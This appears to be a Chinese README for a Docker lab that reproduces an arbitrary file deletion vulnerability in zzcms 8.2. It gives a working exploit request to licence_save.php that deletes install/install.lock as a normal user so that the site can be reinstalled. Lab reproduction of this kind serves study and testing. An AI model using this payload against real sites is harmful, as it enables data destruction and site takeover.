




## 启动环境

```
docker-compose build
docker-compose up -d
```


## 0x01 任意文件删除漏洞

要想利用此漏洞必须现在前台注册一个普通用户账户，我已经创建了一个普通用户luffy:shadow

GET:http://127.0.0.1/user/licence_save.php?action=modify
POST:title=1&img=1&oldimg=install/install.lock&id=1



对比




然后重装 [zzcms安装向导](http://127.0.0.1/install/index.php)








[zzcms 8.2任意文件删除漏洞](https://bbs.ichunqiu.com/thread-35355-1-1.html)
